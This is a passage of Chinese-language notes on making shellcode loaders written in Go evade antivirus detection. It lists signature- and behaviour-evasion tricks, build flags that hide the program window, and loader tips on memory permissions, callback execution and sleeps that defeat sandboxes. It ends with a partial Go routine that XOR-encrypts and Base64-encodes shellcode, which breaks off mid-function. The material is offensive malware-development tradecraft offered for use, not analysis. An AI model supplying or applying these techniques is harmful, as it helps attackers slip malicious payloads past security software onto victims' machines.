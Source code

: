 免杀

- 静态免杀： 对抗基于特征的静态免杀比较简单，可以使用加壳改壳、添加/替换资源文件、修改特征码、Shellcode 编码/加密（AES/DES/Base64/Xor），目的是去除ShellCode特征
- 行为免杀：API 替换、使用未被 Hook 的 API、直接系统调用、替换操作方式采用白加黑手段等

### Go相关
> Go编写的程序很多杀软都会报毒（哪怕是HelloWorld）

- Tips：编码这块可使用 Xor 异或，不需要引入额外的包。因为 Go 编写的 Loader 体积较大，再引入包会更大
- 编译时经常会添加参数`-ldflags="-H windowsgui"`，其作用是隐藏CMD窗口

```bash
$ go build -ldflags="-s -w -H=windowsgui" -o main.exe main.go

# -o 指定输出文件名
# -s -w 减小体积
# -H=windowsgui 隐藏窗口
```

- 默认`go build`的exe都是当前操作系统的可执行文件，如果需要跨平台，只需要指定目标操作系统的平台和处理器架构即可。

```bash
# 编译当前操作系统的可执行文件
$ go build main.go
$ go build -o <Other_Name> main.go

# 【无弹窗】Mac编译exe
$ CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc CXX=x86_64-w64-mingw32-g++ GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H=windowsgui" main.go

```

## Loader

- Loader Tips：
   - 加载DLL，采用动态调用的方式，可以避免 IAT 的 Hook
   - 不要直接申请 RWX (读写执行)的内存，可先申请 RW 内存，后面再改为可执行，杀软对 RWX 的内存很敏感
   - 加载到内存的方法非常多，除了常见的`copy`和`move`还有`uuid`这种加载既能达到加密Shellcode 的效果，还能直接加载到内存
   - 执行内存，还可以用回调来触发如 EnumChildWindows，参考：[AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
   - API调用中间可以插入一些没用的代码，打乱API调用
   - 适当加一些 sleep，可以过一些沙箱

### 加密
> 由于反病毒软件对于默认生成的文件查杀较为严格，所以需要先对其进行混淆加密，然后再通过解密还原

- 这里使用XOR异或加密，加密部分可以自行修改，但后续解密部分需要做相应调整

```go
package main

import (
	"encoding/base64"
	"fmt"
	"io/ioutil"
)

var key = []byte{0x1b, 0x51, 0x11}

// 异或混淆加密,然后进行Base64编码
func getEnCode(shellcode []byte) string {
	var xorShellcode []byte
	for i := 0; i < len(shellcode); i++ {
		xorShellcode = append(xorShellcode, shellcode[i]^key[2]^key[1])
	}
	return base64.StdEncoding.EncodeToString(xorShellcode)
```